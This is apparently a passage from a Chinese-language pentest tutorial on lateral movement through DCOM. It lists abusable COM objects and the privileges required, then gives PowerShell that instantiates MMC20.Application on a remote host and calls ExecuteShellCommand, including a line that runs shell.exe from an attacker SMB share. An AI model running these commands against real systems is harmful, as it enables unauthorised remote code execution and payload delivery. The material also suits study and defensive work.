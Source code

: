 ![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%203.png)

目前经常利用的`DCOM`组件有：`MMC20.Application`、`ShellWindows`、`Excel.Application`、`ShellBrowserWindow`等。

使用`DCOM`在远程主机上面执行命令，需要具有以下条件：

1. 具有管理员权限的`PowerShell`；
2. 远程主机未开启防火墙；
3. 在远程主机上执行命令时，必须使用域管的`Administrator`账户或者目标主机具有管理员权限的账户。

### MMC20.Application

`MMC20.Application`对象的`Document.ActiveView`下存在一个`ExecuteShellCommand`方法，可以用来启动子进程并运行执行的程序或系统命令。

```powershell
# 通过progID与DCOM进行远程交互，并创建MMC20.Application对象的示例
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","10.10.10.137"))

# 调用ExecuteShellCommand方法启动进程，运行攻击载荷
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c \\192.168.31.207\evilsmb\shell.exe", "Minimized")

# 合并一句话
[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","10.10.10.137")).Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c ipconfig > C:\\Hacked.txt", "Minimized")
```
